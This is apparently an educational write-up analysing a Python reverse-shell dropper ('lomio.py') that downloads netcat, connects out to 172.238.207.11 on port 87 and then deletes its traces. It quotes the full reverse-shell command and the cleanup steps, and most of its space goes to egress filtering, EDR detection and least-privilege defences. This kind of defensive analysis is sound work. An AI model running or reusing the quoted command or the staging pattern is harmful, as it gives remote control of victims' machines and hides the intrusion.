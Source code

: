 ## 🔒 instruction.md: Educational Analysis of a Reverse Shell Script

**Disclaimer:** This document is for **educational and defensive purposes only**. It analyzes the techniques demonstrated in the provided Python script (`lomio.py`), which are commonly used in cybersecurity for penetration testing and are also utilized in unauthorized access scenarios.

---

### 💻 Script Overview and Components

The script is a Python program designed to be converted into a standalone Windows executable (e.g., using **PyInstaller**). Its purpose is to establish a **Reverse Shell**, giving a remote host control over the system.

* **Language & Platform:** Python, targeted for Windows (`.exe` payload).
* **Core Utility:** **Netcat** (`nc64.exe`), a versatile networking tool.
* **Target (Attacker) IP:** `172.238.207.11` (mentioned as a Linode Linux machine).
* **Target (Attacker) Port:** `87`.

| Line(s) | Functionality | Cybersecurity Technique |
| :---: | :--- | :--- |
| **4, 7** | Downloads a compressed file (`netcat.zip`) and unpacks it. | **Staging and Dropping:** Acquiring necessary tools onto the target system from a public source. |
| **11** | `os.system("nc64.exe 172.238.207.11 87 -e cmd.exe")` | **Reverse Shell Execution:** Initiates an **outbound** connection to the remote IP on port **87**. The `-e cmd.exe` flag pipes the victim's command shell over that network connection. |
| **9, 12-15** | Changes directories, then removes the downloaded ZIP and the extracted folder. | **Anti-Forensics/Cleanup:** An attempt to remove indicators of compromise (IOCs) related to the initial file download and extraction. |

---

### 🛡️ Mitigation and Defensive Strategies

Understanding the script's behavior is critical for defense. The following strategies prevent or detect the execution and successful establishment of a reverse shell:

#### 1. Network Security Controls (Firewall/NSM)

* **Egress Filtering is Key:** Reverse shells require the victim to make an **outbound** connection. Firewalls should be configured to **deny all outbound traffic** except to known, necessary destinations and ports (e.g., standard DNS, HTTPS). This would block the connection attempt to `172.238.207.11` on the non-standard port **87**.
* **Traffic Monitoring:** Use Network Security Monitoring (NSM) tools to alert on high-volume, unexpected connections, or communication on non-standard ports.

#### 2. Endpoint Protection (EDR)

* **Behavioral Detection:** EDR solutions should flag the following sequence of events as highly suspicious:
    1.  A system process (like Python) executing **curl** or **wget**.
    2.  An archive utility (like **shutil**) unpacking a downloaded file.
    3.  A recently downloaded, low-prevalence executable (**nc64.exe**) running with flags that include piping a shell (`-e cmd.exe`).
* **Application Whitelisting:** Prevent the execution of unauthorized or unknown binaries like `nc64.exe` on the host system.

#### 3. Principle of Least Privilege

* The user or system process executing this script should have the **lowest possible permissions**. This limits the damage an attacker can do even if the reverse shell is successfully established.

